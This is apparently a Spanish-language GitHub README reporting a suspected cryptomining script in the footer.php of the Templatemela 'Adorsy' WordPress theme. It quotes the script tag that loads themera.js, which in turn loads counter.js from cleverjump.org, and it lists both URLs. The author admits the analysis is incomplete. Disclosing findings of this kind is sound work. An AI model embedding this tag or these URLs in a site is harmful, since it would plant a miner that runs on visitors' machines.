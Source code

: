 # script-malicioso-templatemela-adorsy
Documentación sobre un script malicioso que encontré navegando en Wordpress

Trabajando junto con un amigo en un eCommerce, fuí alertado de la existencia de un Malware en la web que estábamos trabajando. La alerta vino del Antimalware en la PC de mi amigo, pensé que serí un falso negativo, pero revisando las llamadas de Red desde la consola del navegador, ví que es lo que sucedía.

Había un par scripts que tenían un comportamiento extraño por decir lo menos. El primero, "themera.js" llamaba a una página "https://themera.net/", la llamada estaba en el footer.php del Template elaborado por la empresa Templatemela. Concretamente en la plantilla Adorsy.

<!-- <script type="text/javascript" src="//themera.net/embed/themera.js?id=76847"></script> -->

Dentro de ese script se llamaba a otro "counter.js", este último alojado en una web de Países Bajos "https://cleverjump.org/", al parecer había un Bitcoin Minner ese último script. https://urlscan.io/result/8f13ff7e-23f9-47dd-a8bb-c66eb2a76118 dejo los resultados de mi búsqueda. 

Actualmente (como pueden ver de hecho) no tengo tantos conocimientos para ir desarmando parte por parte el script y saber a ciencia cierta qué hace. Por eso lo dejo aquí en Git Hub como constancia de mi hallazgo.

Webs con los Script Maliciosos:
- https://cleverjump.org/counter.js
- https://themera.net/embed/themera.js?id=76847
